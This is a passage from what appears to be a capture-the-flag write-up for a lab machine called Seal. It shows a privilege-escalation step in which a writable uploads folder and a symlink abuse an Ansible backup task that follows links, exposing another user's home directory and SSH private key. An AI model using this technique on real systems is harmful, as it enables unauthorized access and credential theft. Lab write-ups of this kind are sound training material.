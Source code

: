 `pspy` to enumerate processes, find

- a scheduled task with luis privilege
- a configuration file: `/opt/backups/playbook/run.yml`

![image-20240203024325583](./Seal.assets/image-20240203024325583.png)

```console
tomcat@seal:/var/lib/tomcat9$ cat /opt/backups/playbook/run.yml
cat /opt/backups/playbook/run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

When `copy_links=yes`, the exploit thought is create a link to luis's home directory and analysis the backup zip. The link should be created inside a writable path: `uploads`

```console
tomcat@seal:/var/lib/tomcat9$ ls -l /var/lib/tomcat9/webapps/ROOT/admin/dashboard
total 92
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6  2021 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7  2021 uploads
```

```console
tomcat@seal:/var/lib/tomcat9$ ls -l /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
total 0
tomcat@seal:/var/lib/tomcat9$ ln -s /home/luis /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/myluis
tomcat@seal:/var/lib/tomcat9$ ls -l /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
total 0
lrwxrwxrwx 1 tomcat tomcat 10 Feb  2 14:07 myluis -> /home/luis
```

Unarchive the backup file and discover luis's ssh private key:
